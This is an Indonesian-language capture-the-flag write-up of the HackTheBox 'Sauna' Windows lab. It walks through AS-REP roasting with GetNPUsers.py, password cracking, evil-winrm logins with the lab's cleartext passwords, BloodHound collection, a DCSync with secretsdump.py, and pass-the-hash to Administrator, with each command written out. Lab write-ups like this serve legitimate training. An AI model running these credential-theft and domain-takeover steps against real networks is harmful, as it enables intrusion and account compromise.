







# Sauna (Windows)



HackTheBox Sauna dengan operating system Windows. Menurut statistik rating diatas, sepertinya box ini akan mengandalkan berat ke exploitasi lewat CVE.

### Enumeration

Pertama-tama seperti biasa mari kita lakukan port scanning menggunakan nmap !



Ternyata hasil nmap menunjukkan begitu banyak port yang terbuka! Hal ini adalah hal yang baik, karena semakin banyak service yang berjalan maka semakin besar juga attack surfacenya.

Dari nmap scan bisa dilihat ada web service yang sedang berjalan, mari kita kunjungi

Ditemukan websitenya dengan employee list yang terlihat menarik, ini bisa dijadikan target tetapi karena kita tidak mengetahui penamaan didalam active directornya tentu jadi masalah


Dari gambar diatas ada banyak nama "Staff" yang berpotensial menjadi username yang bisa kita gunakan untuk masuk kedalam. Jadi penulis mencoba untuk membuat custom wordlist berdasarkan prefix dan postfix masing masing nama mereka untuk digunakan sebagai wordlist dalam percobaan ASREPRoasting dengan GetNPUsers.py dari Impacket Suite



```
python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile /root/Documents/htb/sauna/employees -no-pass -dc-ip 10.10.10.175
```



### User

Kita mendapatkan hash dari user fsmith, setelah di crack dengan john the ripper, maka akan didapatkan credentialsnya yaitu fsmith:Thestrokes23

Kita bisa menggunakan kredensial diatas untuk mendapatkan shell menggunakan evil-winrm

```
Evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

Melakukan enumerasi windows dengan winPEAS.exe tidak memunculkan apapun yg terlalu menarik, mengecek registry untuk credentials berdasarkan referensi ini

[https://attack.mitre.org/techniques/T1214/](https://attack.mitre.org/techniques/T1214/)

Mendapatkan password Moneymakestheworldgoround!

Berhasil login menjadi svc_loanmgr



Setelah sudah masuk sebagai svc_loanmgr mari kita tingkatkan enumeration tryhard level kita dengan menggunakan Bloodhound

```
Import-Module ./SharpHound.ps1

Invoke-BloodHound -CollectionMethod All -LDAPUser svc_loanmgr -LDAPPass Moneymakestheworldgoround!
```

Ternyata svc_loanmgr memiliki permission GetChangesAll itu yang bisa ngelakuin DCSync attack buat dapetin hash dari administrator



```
python3 /opt/impacket/examples/secretsdump.py 'EGOTISTICAL-BANK.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

Didapatkan hash dari administrator tinggal pass the hash dan kita bisa login sebagai administrator



```
evil-winrm -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```

# Rooted !
